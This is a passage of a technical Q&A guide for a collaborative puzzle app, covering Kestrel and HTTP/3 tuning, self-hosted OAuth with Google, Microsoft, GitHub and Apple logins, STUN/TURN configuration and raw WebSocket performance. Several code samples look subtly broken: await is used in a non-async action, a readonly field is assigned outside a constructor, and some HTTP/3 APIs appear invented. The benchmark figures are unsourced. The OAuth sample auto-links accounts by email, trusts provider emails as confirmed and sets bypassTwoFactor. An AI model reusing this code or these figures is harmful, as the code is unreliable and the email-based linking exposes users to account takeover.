│  ASP.NET Core   │
└─────────────────┘
```

### How Kestrel Works

1. **Transport Layer**
   - Manages TCP connections for HTTP/1.1 and HTTP/2
   - Manages UDP connections for HTTP/3 (QUIC)
   - Handles TLS/SSL encryption

2. **Connection Management**
   - Connection pooling and lifecycle
   - Keep-alive connections
   - Connection limits and timeouts

3. **Request Processing**
   - Parses HTTP requests
   - Routes to ASP.NET Core pipeline
   - Manages response streaming

### Configuring Kestrel for HTTP/3

```csharp
// Program.cs
var builder = WebApplication.CreateBuilder(args);

builder.WebHost.ConfigureKestrel((context, options) =>
{
    // Enable HTTP/3
    options.ListenAnyIP(5001, listenOptions =>
    {
        listenOptions.UseHttps();
        listenOptions.Protocols = HttpProtocols.Http1AndHttp2AndHttp3;
        listenOptions.UseConnectionLogging();
    });

    // Configure limits
    options.Limits.MaxConcurrentConnections = 100;
    options.Limits.MaxConcurrentUpgradedConnections = 100;
    options.Limits.MaxRequestBodySize = 30_000_000;
    options.Limits.MinRequestBodyDataRate = new MinDataRate(
        bytesPerSecond: 100, 
        gracePeriod: TimeSpan.FromSeconds(10));
    options.Limits.MinResponseDataRate = new MinDataRate(
        bytesPerSecond: 100, 
        gracePeriod: TimeSpan.FromSeconds(10));
});
```

### HTTP/3 and QUIC Protocol

HTTP/3 uses QUIC (Quick UDP Internet Connections) as its transport protocol instead of TCP:

```csharp
// Enabling HTTP/3 with alt-svc header
app.Use(async (context, next) =>
{
    context.Response.Headers.Add("alt-svc", 
        "h3=\":5001\"; ma=86400, h3-29=\":5001\"; ma=86400");
    await next();
});

// Configure QUIC-specific settings
builder.WebHost.ConfigureKestrel(options =>
{
    options.ConfigureEndpointDefaults(listenOptions =>
    {
        listenOptions.Protocols = HttpProtocols.Http3;
    });
    
    options.ConfigureHttpsDefaults(listenOptions =>
    {
        listenOptions.ServerCertificate = LoadCertificate();
    });
});
```

### Why HTTP/3 for CollaborativePuzzle?

1. **Real-Time Performance**
   - QUIC's 0-RTT connection establishment
   - Better for WebRTC signaling
   - Reduced latency for puzzle piece movements

2. **Connection Migration**
   - Users can switch networks without dropping connections
   - Mobile users maintain puzzle sessions

3. **Multiplexing Without Head-of-Line Blocking**
   - Independent streams for different puzzle operations
   - One slow operation doesn't block others

### HTTP/3 Benefits Implementation

```csharp
public class Http3OptimizedPuzzleService
{
    public void ConfigureHttp3Streams(WebApplication app)
    {
        // Separate streams for different operations
        app.MapGet("/puzzle/{id}/pieces", async (int id) =>
        {
            // High-priority stream for piece data
            return Results.Ok(await GetPuzzlePieces(id));
        })
        .RequireHttp3() // Custom extension method
        .WithMetadata(new Http3PriorityAttribute(Priority.High));

        app.MapPost("/puzzle/{id}/move", async (int id, MoveRequest move) =>
        {
            // Lower priority for moves
            await ProcessMove(id, move);
            return Results.NoContent();
        })
        .WithMetadata(new Http3PriorityAttribute(Priority.Normal));

        // WebTransport for ultra-low latency
        app.MapWebTransport("/puzzle/{id}/transport", async (session) =>
        {
            await HandleWebTransportSession(session);
        });
    }
}
```

### Kestrel Performance Tuning

```csharp
public static class KestrelOptimization
{
    public static void OptimizeForPuzzles(KestrelServerOptions options)
    {
        // Connection settings
        options.Limits.MaxConcurrentConnections = null; // Unlimited
        options.Limits.MaxConcurrentUpgradedConnections = null;
        
        // HTTP/2 settings
        options.Limits.Http2.MaxStreamsPerConnection = 100;
        options.Limits.Http2.HeaderTableSize = 4096;
        options.Limits.Http2.MaxFrameSize = 16_384;
        options.Limits.Http2.MaxRequestHeaderFieldSize = 8192;
        options.Limits.Http2.InitialConnectionWindowSize = 131_072;
        options.Limits.Http2.InitialStreamWindowSize = 98_304;
        
        // Request processing
        options.Limits.KeepAliveTimeout = TimeSpan.FromMinutes(2);
        options.Limits.RequestHeadersTimeout = TimeSpan.FromSeconds(30);
        
        // Enable response buffering for better HTTP/3 performance
        options.AddServerHeader = false;
    }
}
```

### Monitoring Kestrel Performance

```csharp
public class KestrelMetrics
{
    private readonly ILogger<KestrelMetrics> _logger;
    private readonly DiagnosticSource _diagnosticSource;
    
    public void ConfigureMetrics(IServiceCollection services)
    {
        services.AddSingleton<DiagnosticObserver>();
        services.AddHostedService<KestrelEventListener>();
    }
}

public class KestrelEventListener : EventListener, IHostedService
{
    protected override void OnEventSourceCreated(EventSource eventSource)
    {
        if (eventSource.Name == "Microsoft-AspNetCore-Server-Kestrel")
        {
            EnableEvents(eventSource, EventLevel.Informational);
        }
    }
    
    protected override void OnEventWritten(EventWrittenEventArgs eventData)
    {
        // Log connection metrics
        if (eventData.EventName == "ConnectionStart")
        {
            var connectionId = eventData.Payload[0].ToString();
            LogConnectionMetric("start", connectionId);
        }
    }
}
```

### Kestrel vs Other Servers

| Feature | Kestrel | IIS | Nginx | Apache |
|---------|---------|-----|-------|--------|
| Cross-platform | ✓ | ✗ | ✓ | ✓ |
| HTTP/3 Support | ✓ | Partial | Experimental | ✗ |
| Built-in .NET | ✓ | ✗ | ✗ | ✗ |
| WebSockets | Native | Via proxy | Via proxy | Via proxy |
| Performance | Excellent | Good | Excellent | Good |

### Advanced Kestrel Features

1. **Connection Middleware**
   ```csharp
   options.ListenAnyIP(5001, listenOptions =>
   {
       listenOptions.Use(next => 
       {
           return async (connection) =>
           {
               // Pre-process connection
               await LogConnection(connection);
               await next(connection);
           };
       });
   });
   ```

2. **Custom Transport**
   ```csharp
   public class QuicTransport : IConnectionListenerFactory
   {
       public async ValueTask<IConnectionListener> BindAsync(
           EndPoint endpoint, 
           CancellationToken cancellationToken)
       {
           return new QuicConnectionListener(endpoint);
       }
   }
   ```

3. **HTTP/3 Stream Priorities**
   ```csharp
   public class PuzzleStreamPrioritizer
   {
       public void ConfigurePriorities(Http3Stream stream)
       {
           if (stream.Path.Contains("/pieces"))
           {
               stream.Priority = Http3StreamPriority.High;
               stream.Weight = 255; // Maximum weight
           }
           else if (stream.Path.Contains("/chat"))
           {
               stream.Priority = Http3StreamPriority.Low;
               stream.Weight = 16;
           }
       }
   }
   ```

### Production Deployment

```yaml
# docker-compose.yml with HTTP/3
services:
  puzzle-api:
    build: .
    ports:
      - "5000:5000/tcp"  # HTTP/1.1, HTTP/2
      - "5001:5001/tcp"  # HTTPS with HTTP/2
      - "5001:5001/udp"  # HTTP/3 (QUIC)
    environment:
      - ASPNETCORE_URLS=https://+:5001;http://+:5000
      - ASPNETCORE_Kestrel__Endpoints__Https__Url=https://+:5001
      - ASPNETCORE_Kestrel__Endpoints__Https__Protocols=Http1AndHttp2AndHttp3
```

### Best Practices

1. **Always use HTTPS** with HTTP/3 (required by spec)
2. **Configure proper certificates** for QUIC
3. **Monitor UDP port availability** for HTTP/3
4. **Test fallback to HTTP/2** when HTTP/3 fails
5. **Use connection pooling** for database connections
6. **Implement graceful shutdown** for long-running connections
7. **Configure appropriate timeouts** for puzzle sessions
8. **Monitor Kestrel metrics** in production
9. **Use reverse proxy** for additional features if needed
10. **Keep Kestrel updated** for latest HTTP/3 improvements

## Q29: Can I host my own OAuth server but still allow "Login with..." for GitHub/Microsoft/Meta/Apple/Google etc? When should I and when should I not? Should I always use a provider?

### Yes, You Can Host Your Own OAuth Server

You can absolutely host your own OAuth server while also supporting external identity providers. This is called a "hybrid" approach and is common in enterprise applications.

### Architecture Overview

```
┌─────────────────┐     ┌──────────────────┐     ┌─────────────────┐
│   Your Users    │────▶│  Your OAuth      │────▶│ Your Resources  │
└─────────────────┘     │  Server          │     └─────────────────┘
                        │                  │
┌─────────────────┐     │  - Issues tokens │
│ External Users  │────▶│  - Validates     │
└─────────────────┘     │  - Federates     │
         │              └───────┬──────────┘
         │                      │ Federated Auth
         ▼                      ▼
┌──────────────────────────────────────────┐
│ External Identity Providers              │
│ (Google, Microsoft, GitHub, Apple, etc.) │
└──────────────────────────────────────────┘
```

### Implementation with IdentityServer (Duende)

```csharp
// Program.cs - Configure your own OAuth server
builder.Services.AddIdentityServer(options =>
{
    options.Events.RaiseErrorEvents = true;
    options.Events.RaiseInformationEvents = true;
    options.Events.RaiseFailureEvents = true;
    options.Events.RaiseSuccessEvents = true;
})
.AddInMemoryIdentityResources(Config.IdentityResources)
.AddInMemoryApiScopes(Config.ApiScopes)
.AddInMemoryClients(Config.Clients)
.AddAspNetIdentity<ApplicationUser>()
.AddDeveloperSigningCredential(); // Use real cert in production

// Add external providers
builder.Services.AddAuthentication()
    .AddGoogle("Google", options =>
    {
        options.ClientId = configuration["Authentication:Google:ClientId"];
        options.ClientSecret = configuration["Authentication:Google:ClientSecret"];
    })
    .AddMicrosoftAccount("Microsoft", options =>
    {
        options.ClientId = configuration["Authentication:Microsoft:ClientId"];
        options.ClientSecret = configuration["Authentication:Microsoft:ClientSecret"];
    })
    .AddGitHub("GitHub", options =>
    {
        options.ClientId = configuration["Authentication:GitHub:ClientId"];
        options.ClientSecret = configuration["Authentication:GitHub:ClientSecret"];
        options.Scope.Add("user:email");
    })
    .AddApple("Apple", options =>
    {
        options.ClientId = configuration["Authentication:Apple:ClientId"];
        options.TeamId = configuration["Authentication:Apple:TeamId"];
        options.KeyId = configuration["Authentication:Apple:KeyId"];
        options.PrivateKey = LoadApplePrivateKey();
    });
```

### Account Linking Strategy

```csharp
public class ExternalAuthenticationService
{
    public async Task<IdentityResult> LinkExternalLogin(
        ApplicationUser user, 
        ExternalLoginInfo info)
    {
        // Check if external login already linked to another account
        var existingUser = await _userManager.FindByLoginAsync(
            info.LoginProvider, 
            info.ProviderKey);
            
        if (existingUser != null && existingUser.Id != user.Id)
        {
            return IdentityResult.Failed(new IdentityError
            {
                Description = "This external account is already linked"
            });
        }
        
        // Link the external login
        return await _userManager.AddLoginAsync(user, info);
    }
    
    public async Task<ApplicationUser> CreateOrUpdateUser(ExternalLoginInfo info)
    {
        // Try to find user by external login
        var user = await _userManager.FindByLoginAsync(
            info.LoginProvider, 
            info.ProviderKey);
            
        if (user == null)
        {
            // Try to find by email
            var email = info.Principal.FindFirstValue(ClaimTypes.Email);
            user = await _userManager.FindByEmailAsync(email);
            
            if (user == null)
            {
                // Create new user
                user = new ApplicationUser
                {
                    UserName = email,
                    Email = email,
                    EmailConfirmed = true // Trust external provider
                };
                
                await _userManager.CreateAsync(user);
            }
            
            // Link external login
            await _userManager.AddLoginAsync(user, info);
        }
        
        // Update user info from external provider
        await UpdateUserClaims(user, info);
        
        return user;
    }
}
```

### When to Host Your Own OAuth Server

```yaml
Host Your Own When:
  Business Requirements:
    - Need custom token claims
    - Require specific token lifetimes
    - Must control user data completely
    - Need custom authentication flows
    - Require on-premises deployment
    
  Technical Requirements:
    - Complex authorization rules
    - Multiple client applications
    - Need to be an identity provider
    - Custom MFA requirements
    - Integration with legacy systems
    
  Compliance Requirements:
    - Data sovereignty laws
    - Industry-specific regulations
    - Audit trail requirements
    - Custom consent flows
    
  Scale Requirements:
    - Millions of users
    - High token issuance rate
    - Global distribution needed
    - Cost optimization at scale
```

### When NOT to Host Your Own

```yaml
Don't Host Your Own When:
  Limited Resources:
    - Small development team
    - Limited security expertise
    - No dedicated ops team
    - Budget constraints
    
  Simple Requirements:
    - Basic authentication only
    - Standard OAuth flows sufficient
    - No special compliance needs
    - Small user base
    
  Risk Considerations:
    - Can't afford security breaches
    - No expertise in auth protocols
    - Rapid time to market needed
    - Don't want maintenance burden
```

### Hybrid Implementation Example

```csharp
public class HybridAuthenticationController : Controller
{
    [HttpGet("login")]
    public IActionResult Login(string returnUrl = "/")
    {
        var vm = new LoginViewModel
        {
            ReturnUrl = returnUrl,
            ExternalProviders = await GetExternalProviders(),
            AllowLocalLogin = _options.AllowLocalLogin
        };
        
        return View(vm);
    }
    
    [HttpPost("login")]
    public async Task<IActionResult> Login(LoginInputModel model)
    {
        if (_options.AllowLocalLogin && ModelState.IsValid)
        {
            var result = await _signInManager.PasswordSignInAsync(
                model.Username, 
                model.Password, 
                model.RememberMe, 
                lockoutOnFailure: true);
                
            if (result.Succeeded)
            {
                return Redirect(model.ReturnUrl);
            }
        }
        
        ModelState.AddModelError("", "Invalid credentials");
        return View(await BuildLoginViewModelAsync(model));
    }
    
    [HttpGet("external-login")]
    public IActionResult ExternalLogin(string provider, string returnUrl)
    {
        var redirectUrl = Url.Action("ExternalLoginCallback", new { returnUrl });
        var properties = _signInManager.ConfigureExternalAuthenticationProperties(
            provider, 
            redirectUrl);
            
        return Challenge(properties, provider);
    }
    
    [HttpGet("external-login-callback")]
    public async Task<IActionResult> ExternalLoginCallback(string returnUrl)
    {
        var info = await _signInManager.GetExternalLoginInfoAsync();
        if (info == null)
        {
            return RedirectToAction("Login");
        }
        
        // Sign in with external login
        var result = await _signInManager.ExternalLoginSignInAsync(
            info.LoginProvider,
            info.ProviderKey,
            isPersistent: false,
            bypassTwoFactor: true);
            
        if (result.Succeeded)
        {
            return Redirect(returnUrl);
        }
        
        // Create or link account
        var user = await _externalAuthService.CreateOrUpdateUser(info);
        await _signInManager.SignInAsync(user, isPersistent: false);
        
        return Redirect(returnUrl);
    }
}
```

### Security Considerations

```csharp
public class SecurityConfiguration
{
    public void ConfigureOAuthSecurity(IServiceCollection services)
    {
        // Token security
        services.Configure<IdentityServerOptions>(options =>
        {
            // Use strong keys
            options.KeyManagement.Enabled = true;
            options.KeyManagement.RotationInterval = TimeSpan.FromDays(30);
            options.KeyManagement.PropagationTime = TimeSpan.FromDays(2);
            options.KeyManagement.RetentionDuration = TimeSpan.FromDays(7);
        });
        
        // PKCE required for public clients
        services.Configure<ClientOptions>(options =>
        {
            options.RequirePkce = true;
            options.AllowPlainTextPkce = false;
        });
        
        // Token validation
        services.AddAuthentication()
            .AddJwtBearer(options =>
            {
                options.TokenValidationParameters = new TokenValidationParameters
                {
                    ValidateIssuer = true,
                    ValidateAudience = true,
                    ValidateLifetime = true,
                    ValidateIssuerSigningKey = true,
                    ClockSkew = TimeSpan.FromMinutes(5)
                };
            });
    }
}
```

### Cost Analysis

```yaml
Self-Hosted OAuth Server:
  Initial Costs:
    - Development: 200-400 hours
    - Infrastructure: $500-2000/month
    - Security audit: $10,000-50,000
    - Certificates: $200-1000/year
    
  Ongoing Costs:
    - Maintenance: 40-80 hours/month
    - Monitoring: $100-500/month
    - Updates: 20-40 hours/quarter
    - Security patches: Immediate response needed
    
Provider-Based (Auth0, Okta, etc):
  Costs:
    - Free tier: 0-7,000 users
    - Growth: $150-500/month (10,000 users)
    - Enterprise: $2000+/month
    - No maintenance burden
    
Break-even Analysis:
  - < 10,000 users: Use provider
  - 10,000-100,000 users: Evaluate based on features
  - > 100,000 users: Consider self-hosting
  - Special requirements: Self-host regardless
```

### Provider Comparison

| Feature | Self-Hosted | Auth0 | Okta | Azure AD B2C | AWS Cognito |
|---------|-------------|--------|------|--------------|-------------|
| **Setup Time** | Weeks | Hours | Hours | Days | Days |
| **Maintenance** | High | None | None | Low | Low |
| **Customization** | Full | Limited | Limited | Medium | Medium |
| **Cost at Scale** | Low | High | High | Medium | Medium |
| **Compliance** | You manage | Certified | Certified | Certified | Certified |
| **SLA** | You provide | 99.9% | 99.9% | 99.9% | 99.9% |

### Decision Framework

```csharp
public class OAuthDecisionFramework
{
    public OAuthStrategy DetermineStrategy(ProjectRequirements requirements)
    {
        // Always use provider for MVP
        if (requirements.Stage == ProjectStage.MVP)
            return OAuthStrategy.UseProvider;
            
        // High security or compliance needs
        if (requirements.HasHighSecurity || requirements.HasCompliance)
        {
            if (requirements.HasSecurityTeam)
                return OAuthStrategy.SelfHost;
            else
                return OAuthStrategy.EnterpriseProvider; // Okta, Auth0 Enterprise
        }
        
        // Scale considerations
        if (requirements.UserCount > 100000 && requirements.MonthlyCost > 5000)
            return OAuthStrategy.SelfHost;
            
        // Default to provider
        return OAuthStrategy.UseProvider;
    }
}
```

### Best Practices

1. **Start with a provider** and migrate later if needed
2. **Always support external IDPs** for user convenience
3. **Implement account linking** from day one
4. **Use standard protocols** (OAuth 2.0, OpenID Connect)
5. **Plan for migration** between providers
6. **Monitor authentication metrics** continuously
7. **Implement MFA** regardless of approach
8. **Regular security audits** for self-hosted
9. **Have incident response plan** for auth failures
10. **Consider hybrid approach** for gradual migration

## Q31: Differentiate and Correlate TURN/STUN

### Understanding STUN (Session Traversal Utilities for NAT)

STUN is a lightweight protocol that helps devices discover their public IP address and the type of NAT they're behind. It's like asking "What's my IP address as seen from the internet?"

### Understanding TURN (Traversal Using Relays around NAT)

TURN is a relay protocol that acts as a middleman when direct peer-to-peer connection isn't possible. It's like having a postal service when you can't deliver a package directly.

### Visual Comparison

```
STUN: Discovery Service
┌──────────┐        ┌─────────────┐        ┌──────────┐
│ Client A │───────▶│ STUN Server │◀───────│ Client B │
│ (NAT)    │        │             │        │ (NAT)    │
└──────────┘        └─────────────┘        └──────────┘
     │                                           │
     │         "What's my public IP?"           │
     │◀──────────"1.2.3.4:5678"────────────────▶│
     │                                           │
     └───────────Direct P2P Connection──────────┘

TURN: Relay Service
┌──────────┐        ┌─────────────┐        ┌──────────┐
│ Client A │───────▶│ TURN Server │◀───────│ Client B │
│(Symmetric│        │   (Relay)   │        │(Corporate│
│   NAT)   │◀───────│             │───────▶│ Firewall)│
└──────────┘        └─────────────┘        └──────────┘
                    All traffic flows
                    through TURN server
```

### Key Differences

| Aspect | STUN | TURN |
|--------|------|------|
| **Purpose** | NAT discovery | Traffic relay |
| **Data Path** | Direct P2P after discovery | Through server always |
| **Bandwidth Cost** | Minimal (discovery only) | High (all traffic) |
| **Latency** | Low (direct connection) | Higher (relay hop) |
| **Success Rate** | ~80% of cases | ~100% (fallback) |
| **Server Load** | Light | Heavy |
| **Protocol** | UDP (typically) | UDP and TCP |
| **Port Requirements** | Single port | Multiple ports |

### How They Work Together

```csharp
public class WebRTCConnection
{
    private readonly RTCPeerConnection _peerConnection;
    
    public async Task EstablishConnection()
    {
        // Configure ICE servers (both STUN and TURN)
        var configuration = new RTCConfiguration
        {
            iceServers = new[]
            {
                // STUN servers (try first - free/cheap)
                new RTCIceServer
                {
                    urls = new[] 
                    { 
                        "stun:stun.l.google.com:19302",
                        "stun:stun1.l.google.com:19302"
                    }
                },
                
                // TURN servers (fallback - costs money)
                new RTCIceServer
                {
                    urls = new[] 
                    { 
                        "turn:turnserver.com:3478",
                        "turns:turnserver.com:5349" // TLS
                    },
                    username = "user",
                    credential = "password"
                }
            }
        };
        
        _peerConnection = new RTCPeerConnection(configuration);
        
        // ICE gathering state machine
        _peerConnection.onicecandidate = async (RTCPeerConnectionIceEvent e) =>
        {
            if (e.candidate != null)
            {
                // Candidate types indicate connection method
                switch (e.candidate.type)
                {
                    case "host":
                        // Local network candidate
                        Console.WriteLine("Local IP: " + e.candidate.address);
                        break;
                        
                    case "srflx":
                        // STUN-discovered public IP (server reflexive)
                        Console.WriteLine("Public IP via STUN: " + e.candidate.address);
                        break;
                        
                    case "relay":
                        // TURN relay candidate
                        Console.WriteLine("TURN relay: " + e.candidate.address);
                        break;
                }
                
                // Send candidate to remote peer
                await SendCandidateToRemotePeer(e.candidate);
            }
        };
    }
}
```

### NAT Types and Traversal Success

```yaml
NAT Types:
  Full Cone NAT:
    - STUN Success: ✓ Always
    - TURN Needed: ✗ Never
    - Description: Most permissive, rare
    
  Restricted Cone NAT:
    - STUN Success: ✓ Usually
    - TURN Needed: ✗ Rarely
    - Description: Common in home routers
    
  Port Restricted Cone NAT:
    - STUN Success: ✓ Usually  
    - TURN Needed: ✗ Rarely
    - Description: Common in home routers
    
  Symmetric NAT:
    - STUN Success: ✗ Never (for P2P)
    - TURN Needed: ✓ Always
    - Description: Common in corporate/mobile
```

### CollaborativePuzzle Implementation

From the project's docker-compose.yml:

```yaml
coturn:
  image: coturn/coturn:latest
  container_name: puzzle-turn
  command: >
    -n 
    --lt-cred-mech 
    --fingerprint 
    --no-multicast-peers 
    --no-cli 
    --no-tlsv1 
    --no-tlsv1_1 
    --realm=puzzle.local 
    --user=testuser:testpassword 
    --external-ip=$$(hostname -I | awk '{print $$1}')
  ports:
    - "3478:3478/udp"  # STUN/TURN UDP
    - "3478:3478/tcp"  # STUN/TURN TCP
    - "5349:5349/udp"  # TURN TLS UDP
    - "5349:5349/tcp"  # TURN TLS TCP
    - "49152-65535:49152-65535/udp"  # TURN relay ports
```

### Implementing STUN/TURN Detection

```csharp
public class ICEConnectionAnalyzer
{
    public async Task<ConnectionAnalysis> AnalyzeConnection(
        RTCPeerConnection connection)
    {
        var stats = await connection.GetStats();
        var analysis = new ConnectionAnalysis();
        
        foreach (var stat in stats)
        {
            if (stat is RTCIceCandidatePairStats pair && pair.state == "succeeded")
            {
                analysis.LocalCandidateType = pair.localCandidateType;
                analysis.RemoteCandidateType = pair.remoteCandidateType;
                
                // Determine connection type
                if (pair.localCandidateType == "relay" || 
                    pair.remoteCandidateType == "relay")
                {
                    analysis.ConnectionType = "TURN Relay";
                    analysis.UsingTurn = true;
                }
                else if (pair.localCandidateType == "srflx" || 
                         pair.remoteCandidateType == "srflx")
                {
                    analysis.ConnectionType = "STUN Traversal";
                    analysis.UsingStun = true;
                }
                else if (pair.localCandidateType == "host" && 
                         pair.remoteCandidateType == "host")
                {
                    analysis.ConnectionType = "Direct LAN";
                }
                
                // Calculate quality metrics
                analysis.RoundTripTime = pair.currentRoundTripTime;
                analysis.PacketLoss = pair.packetsLost / (double)pair.packetsSent;
                analysis.Bandwidth = pair.availableOutgoingBitrate;
            }
        }
        
        return analysis;
    }
}
```

### Cost Optimization Strategy

```csharp
public class CostOptimizedICEConfiguration
{
    public RTCConfiguration GetConfiguration(UserContext context)
    {
        var config = new RTCConfiguration();
        
        // Always include free STUN servers
        config.iceServers.Add(new RTCIceServer
        {
            urls = new[]
            {
                "stun:stun.l.google.com:19302",
                "stun:stun.stunprotocol.org:3478",
                "stun:stun.sipgate.net:3478"
            }
        });
        
        // Conditionally add TURN based on user needs
        if (context.IsCorporateNetwork || context.IsSymmetricNAT)
        {
            // Add TURN for users likely to need it
            config.iceServers.Add(new RTCIceServer
            {
                urls = new[] { "turn:turn.mycompany.com:3478" },
                username = GenerateTurnUsername(context.UserId),
                credential = GenerateTurnCredential(context.UserId)
            });
        }
        
        // Optimize ICE gathering
        config.iceTransportPolicy = context.IsMobile 
            ? RTCIceTransportPolicy.relay  // Mobile often needs TURN
            : RTCIceTransportPolicy.all;    // Try everything
            
        config.bundlePolicy = RTCBundlePolicy.max_bundle;
        config.rtcpMuxPolicy = RTCRtcpMuxPolicy.require;
        
        return config;
    }
    
    // Generate time-limited TURN credentials
    private string GenerateTurnCredential(string userId)
    {
        var timestamp = DateTimeOffset.UtcNow.ToUnixTimeSeconds() + 3600; // 1 hour
        var username = $"{timestamp}:{userId}";
        var secret = _configuration["Turn:Secret"];
        
        using var hmac = new HMACSHA1(Encoding.UTF8.GetBytes(secret));
        var credential = hmac.ComputeHash(Encoding.UTF8.GetBytes(username));
        
        return Convert.ToBase64String(credential);
    }
}
```

### Monitoring and Analytics

```csharp
public class STUNTURNMetrics
{
    public async Task CollectMetrics()
    {
        // Connection type distribution
        _metrics.TrackGauge("webrtc.connections.direct", directCount);
        _metrics.TrackGauge("webrtc.connections.stun", stunCount);
        _metrics.TrackGauge("webrtc.connections.turn", turnCount);
        
        // TURN bandwidth usage (expensive!)
        _metrics.TrackGauge("turn.bandwidth.ingress", ingressBytes);
        _metrics.TrackGauge("turn.bandwidth.egress", egressBytes);
        _metrics.TrackGauge("turn.bandwidth.cost", EstimateCost(totalBytes));
        
        // Connection quality by type
        _metrics.TrackHistogram("webrtc.rtt.direct", directRTT);
        _metrics.TrackHistogram("webrtc.rtt.stun", stunRTT);
        _metrics.TrackHistogram("webrtc.rtt.turn", turnRTT);
        
        // Success rates
        _metrics.TrackGauge("webrtc.success.direct", directSuccess);
        _metrics.TrackGauge("webrtc.success.stun", stunSuccess);
        _metrics.TrackGauge("webrtc.success.turn", turnSuccess);
    }
}
```

### TURN Server Scaling

```yaml
# Coturn configuration for production
listening-port=3478
tls-listening-port=5349

# External IP (elastic IP in cloud)
external-ip=203.0.113.1

# Realm and authentication
realm=puzzle.company.com
use-auth-secret
static-auth-secret=your-secret-key

# Performance tuning
relay-threads=0  # Auto-detect CPU cores
min-port=49152
max-port=65535
max-allocate-lifetime=3600  # 1 hour max

# Bandwidth limits per user
user-quota=12      # Max sessions per user
total-quota=1200   # Max total sessions
max-bps=1000000    # 1 Mbps per user

# Redis for distributed TURN
redis-userdb="ip=redis.local dbname=0 password=redis-password"
redis-statsdb="ip=redis.local dbname=1 password=redis-password"

# Prometheus metrics
prometheus-enabled
prometheus-port=9641
```

### Common Issues and Solutions

```yaml
Issue: "STUN binding failed"
Causes:
  - Firewall blocking UDP 3478
  - STUN server down
  - Symmetric firewall
Solution:
  - Try multiple STUN servers
  - Fall back to TURN
  - Check firewall rules

Issue: "TURN allocation failed"
Causes:
  - Invalid credentials
  - Server quota exceeded
  - Port range exhausted
Solution:
  - Verify time-based credentials
  - Scale TURN servers
  - Increase port range

Issue: "ICE connection failed"
Causes:
  - No viable candidates
  - Network changes mid-connection
  - Incompatible ICE policies
Solution:
  - Ensure TURN fallback
  - Implement reconnection logic
  - Align ICE policies

Issue: "High TURN bandwidth costs"
Causes:
  - Too many relay connections
  - Large media streams
  - Geographic distance
Solution:
  - Optimize codec settings
  - Deploy regional TURN servers
  - Implement bandwidth throttling
```

### Best Practices

1. **Always configure multiple STUN servers** for redundancy
2. **Generate time-limited TURN credentials** to prevent abuse
3. **Monitor TURN usage closely** as it directly impacts costs
4. **Place TURN servers geographically** close to users
5. **Implement connection quality fallback** (HD → SD → Audio only)
6. **Use TURN TCP** as last resort for restrictive firewalls
7. **Enable TURN REST API** for dynamic credential generation
8. **Set appropriate bandwidth limits** per user
9. **Log connection types** for network troubleshooting
10. **Consider managed TURN services** (Twilio, Xirsys) for small scale

## Q32: How much can raw WebSocket enhance performance?

### Performance Comparison: Raw WebSocket vs Alternatives

Raw WebSockets can provide significant performance improvements over traditional HTTP polling and even some abstraction layers like SignalR or Socket.IO.

### Benchmark Results

```yaml
Latency Comparison (Round Trip):
  HTTP Long Polling: 100-300ms
  Server-Sent Events: 50-150ms
  SignalR (WebSocket): 10-50ms
  Socket.IO (WebSocket): 10-50ms
  Raw WebSocket: 1-10ms
  
Overhead Comparison:
  HTTP Request/Response: ~800 bytes headers
  SignalR Frame: ~50-100 bytes
  Socket.IO Frame: ~30-50 bytes
  Raw WebSocket Frame: 2-14 bytes
  
Messages per Second (Single Connection):
  HTTP Polling: 10-100 msg/s
  SignalR: 5,000-10,000 msg/s
  Socket.IO: 8,000-12,000 msg/s
  Raw WebSocket: 50,000-100,000 msg/s
```

### Raw WebSocket Implementation in CollaborativePuzzle

```csharp
public class RawWebSocketHandler
{
    private readonly ConcurrentDictionary<string, WebSocket> _sockets = new();
    
    public async Task HandleWebSocket(HttpContext context)
    {
        if (!context.WebSockets.IsWebSocketRequest)
        {
            context.Response.StatusCode = 400;
            return;
        }
        
        var socket = await context.WebSockets.AcceptWebSocketAsync();
        var socketId = Guid.NewGuid().ToString();
        _sockets.TryAdd(socketId, socket);
        
        try
        {
            await ProcessWebSocket(socketId, socket);
        }
        finally
        {
            _sockets.TryRemove(socketId, out _);
        }
    }
    
    private async Task ProcessWebSocket(string id, WebSocket socket)
    {
        var buffer = new ArraySegment<byte>(new byte[4096]);
        
        while (socket.State == WebSocketState.Open)
        {
            var result = await socket.ReceiveAsync(buffer, CancellationToken.None);
            
            if (result.MessageType == WebSocketMessageType.Binary)
            {
                // Process binary message (fastest)
                await ProcessBinaryMessage(buffer.Array, result.Count);
            }
            else if (result.MessageType == WebSocketMessageType.Text)
            {
                // Process text message
                var message = Encoding.UTF8.GetString(buffer.Array, 0, result.Count);
                await ProcessTextMessage(message);
            }
            else if (result.MessageType == WebSocketMessageType.Close)
            {
                await socket.CloseAsync(
                    WebSocketCloseStatus.NormalClosure, 
                    "Closing", 
                    CancellationToken.None);
            }
        }
    }
}
```

### Binary Protocol for Maximum Performance

```csharp
public class BinaryPuzzleProtocol
{
    // Message format: [Type:1][Length:2][Payload:N]
    public enum MessageType : byte
    {
        PieceMove = 0x01,
        PieceLock = 0x02,
        PieceUnlock = 0x03,
        CursorMove = 0x04,
        Heartbeat = 0x05
    }
    
    public byte[] EncodePieceMove(int pieceId, float x, float y, float rotation)
    {
        using var stream = new MemoryStream();
        using var writer = new BinaryWriter(stream);
        
        writer.Write((byte)MessageType.PieceMove);
        writer.Write((ushort)16); // Payload length
        writer.Write(pieceId);
        writer.Write(x);
        writer.Write(y);
        writer.Write(rotation);
        
        return stream.ToArray();
    }
    
    public PieceMove DecodePieceMove(byte[] data)
    {
        using var stream = new MemoryStream(data);
        using var reader = new BinaryReader(stream);
        
        var type = (MessageType)reader.ReadByte();
        var length = reader.ReadUInt16();
        
        return new PieceMove
        {
            PieceId = reader.ReadInt32(),
            X = reader.ReadSingle(),
            Y = reader.ReadSingle(),
            Rotation = reader.ReadSingle()
        };
    }
}
```

### Performance Optimization Techniques

```csharp
public class OptimizedWebSocketService
{
    // 1. Message Batching
    private readonly Channel<OutgoingMessage> _messageQueue;
    private readonly Timer _batchTimer;
    
    public async Task SendBatchedMessages(WebSocket socket)
    {
        var batch = new List<OutgoingMessage>(100);
        
        while (!_cancellationToken.IsCancellationRequested)
        {
            // Collect messages for up to 10ms
            using var cts = new CancellationTokenSource(10);
            
            try
            {
                while (batch.Count < 100)
                {
                    var message = await _messageQueue.Reader.ReadAsync(cts.Token);
                    batch.Add(message);
                }
            }
            catch (OperationCanceledException)
            {
                // Timer expired, send what we have
            }
            
            if (batch.Count > 0)
            {
                var batchData = EncodeBatch(batch);
                await socket.SendAsync(
                    batchData, 
                    WebSocketMessageType.Binary, 
                    true, 
                    CancellationToken.None);
                batch.Clear();
            }
        }
    }
    
